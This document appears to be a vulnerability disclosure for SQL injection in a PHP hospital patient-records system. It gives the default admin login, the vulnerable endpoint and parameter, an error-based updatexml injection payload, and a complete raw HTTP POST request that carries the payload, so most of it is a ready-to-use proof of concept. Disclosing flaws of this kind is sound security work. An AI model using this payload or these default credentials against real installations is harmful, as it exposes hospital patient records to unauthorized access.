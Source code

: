 # Hospital's Patient Records Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html

Vulnerability File: /hprms/classes/Master.php?f=delete_message

Vulnerability location: /hprms/classes/Master.php?f=delete_message, id

Current database name: hprms_db ,length is 8

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

You need to execute the following sql statement in the database to create the "message_list" table

```sql
CREATE TABLE `message_list` (
  `id` int(30) NOT NULL,
  `fullname` text NOT NULL,
  `specialization` text NOT NULL,
  `email` text NOT NULL,
  `contact` varchar(100) NOT NULL,
  `delete_flag` tinyint(1) NOT NULL,
  `date_created` datetime NOT NULL,
  `date_added` datetime NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT; 
```

```sql
POST /hprms/classes/Master.php?f=delete_message HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171824989-91411dd2-f588-4943-8186-af923a45e33e.png)
